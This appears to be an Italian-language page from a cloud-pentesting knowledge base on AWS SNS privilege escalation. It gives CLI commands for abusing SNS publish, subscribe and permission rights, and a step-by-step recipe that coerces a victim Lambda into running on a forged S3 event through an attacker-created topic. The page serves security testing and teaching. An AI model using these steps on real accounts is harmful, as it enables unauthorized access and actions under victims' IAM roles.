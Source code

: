 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Per maggiori informazioni consulta:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

Un attacker potrebbe inviare messaggi dannosi o indesiderati al SNS topic, causando potenzialmente corruzione dei dati, innescando azioni non intenzionali o esaurendo le risorse.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Impatto potenziale**: Sfruttamento della vulnerabilità, corruzione dei dati, azioni non intenzionali o esaurimento delle risorse.

### `sns:Subscribe`

Un attaccante potrebbe iscriversi a un SNS topic, ottenendo potenzialmente accesso non autorizzato ai messaggi o interrompendo il normale funzionamento delle applicazioni che si basano sul topic.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Impatto potenziale**: Accesso non autorizzato ai messaggi (informazioni sensibili), interruzione del servizio per le applicazioni che si basano sul topic interessato.

### `sns:AddPermission`

Un attaccante potrebbe concedere a utenti o servizi non autorizzati l'accesso a un SNS topic, ottenendo potenzialmente permessi aggiuntivi.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Impatto potenziale**: Accesso non autorizzato al topic, esposizione dei messaggi o manipolazione del topic da parte di utenti o servizi non autorizzati, interruzione del normale funzionamento delle applicazioni che si basano sul topic.


### Invoke a Lambda by abusing wildcard SNS permission (no `SourceArn`)

Se una resource-based policy di una funzione Lambda permette a `sns.amazonaws.com` di invocarla senza limitare il topic sorgente (`SourceArn`), qualsiasi SNS topic (anche in un altro account) può sottoscriversi e attivare la funzione. Un attacker con permessi SNS di base può costringere la Lambda a eseguire con il suo ruolo IAM con input controllato dall'attacker.

> [!TIP]
> TODO: È veramente possibile farlo cross-account?

Prerequisiti
- La policy della Lambda vittima contiene una dichiarazione come la seguente, SENZA condizione `SourceArn`:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
Passaggi di abuso (stesso account o cross-account)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Potential Impact**: La Lambda vittima viene eseguita con il suo IAM role, elaborando input controllato dall'attaccante. Questo può essere sfruttato per far sì che la funzione esegua azioni sensibili (ad esempio, scrivere su S3, accedere a segreti, modificare risorse) a seconda dei suoi permessi.


{{#include ../../../../banners/hacktricks-training.md}}
